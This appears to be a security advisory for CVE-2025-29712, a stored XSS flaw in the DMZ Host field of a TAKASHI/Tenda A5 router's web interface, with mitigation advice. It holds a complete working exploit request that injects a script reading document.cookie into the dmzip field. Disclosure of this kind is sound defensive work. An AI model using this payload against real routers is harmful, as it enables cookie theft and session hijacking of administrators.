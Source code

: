 # TAKASHI Wireless Instant Router and Repeater - XSS Vulnerability CVE-2025-29712

## Overview
A stored cross-site scripting (XSS) vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability arises due to improper sanitization of user input in the `DMZ Host` IP address field.

## Affected Model
- **Model**: A5
- **Manufacturer**: Tenda 
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
The web application attempts to filter input using a JavaScript function on the client side. However, this validation can be bypassed by sending a direct HTTP request to the web server, leading to a stored XSS vulnerability. Any user visiting the `DMZ Host` section of the web application will have the injected script executed in their browser.

### Exploit Request
The following `POST` request demonstrates the XSS injection:

```
POST /goform/VirSerDMZ HTTP/1.1
Host: 192.168.2.1
Content-Length: 56
Cache-Control: max-age=0
Origin: http://192.168.2.1
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.2.1/nat_dmz.asp
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,nl;q=0.8
Cookie: admin:language=LOL
Connection: keep-alive

GO=nat_dmz.asp&dmzip=`</script><script>alert(document.cookie);</script>`
```

### Response
The request is processed successfully, redirecting the user back to the `nat_dmz.asp` page while storing the malicious script:

```
HTTP/1.0 302 Redirect
Server: GoAhead-Webs
Date: Thu Jan 01 00:53:41 1970
Pragma: no-cache
Cache-Control: no-cache
Content-Type: text/html
Location: http://192.168.2.1/nat_dmz.asp

<html>
<head></head>
<body>
    This document has moved to a new <span><a href="http://192.168.2.1/nat_dmz.asp">location</a></span>.<br>
    Please update your documents to reflect the new location.
</body>
</html>
```

## Impact
- Malicious JavaScript can be injected into the application.
- Users who visit the affected page will have their session cookies exposed.
- The attack could lead to session hijacking, phishing, or further exploitation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Server-side Input Validation**: Sanitize and validate user input before storing or reflecting it.
2. **Content Security Policy (CSP)**: Implement a strict CSP header to prevent inline script execution.
3. **Escaping Output**: Encode user input before rendering it in the browser.
4. **Disable Client-Side Validation Bypass**: Ensure all input validation occurs on the server-side in addition to any JavaScript validation.


## References
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell -> https://github.com/SteamPunk424
  
- Martyn Lodder -> https://github.com/rootofficial
